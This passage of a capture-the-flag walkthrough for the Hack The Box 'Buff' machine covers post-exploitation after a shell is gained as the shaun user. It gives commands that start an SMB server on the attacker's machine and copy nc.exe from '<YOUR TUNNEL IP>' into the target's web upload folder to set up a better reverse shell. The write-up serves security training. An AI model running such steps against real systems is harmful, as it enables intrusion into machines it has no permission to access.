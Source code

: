 ![](/assets/images/htb-buff/04_buff_user_flag.png)

Success! The exploit results in a shell as the `buff\shaun` user. The shaun user also has access to the `user.txt` and it can be found at `C:\Users\shaun\Desktop\user.txt`. This shell should be considered a web shell at best. We should work on getting a more interactive shell as it will make it a little easier to work with. 

## A Better Shell
The shell that we are currently working with is not great. We can get a better shell by moving the `nc.exe` executable to the machine. This executbale can be found preinstalled on a Kali image at `/usr/share/windows-binaries/nc.exe`. Copy the executable to your working directory and then run the following command to start the `SMB` server in your directory.

``` bash
smbserver.py share . -smb2support
```

![](/assets/images/htb-buff/05_buff_smb_server.png)

Now run the following from our reverse shell sesison to copy nc.exe from our machine to the target over SMB.

``` bash
copy \\<YOUR TUNNEL IP>\share\nc.exe C:\xampp\htdocs\gym\upload\nc.exe
```

![](/assets/images/htb-buff/06_buff_copy_nc.png)
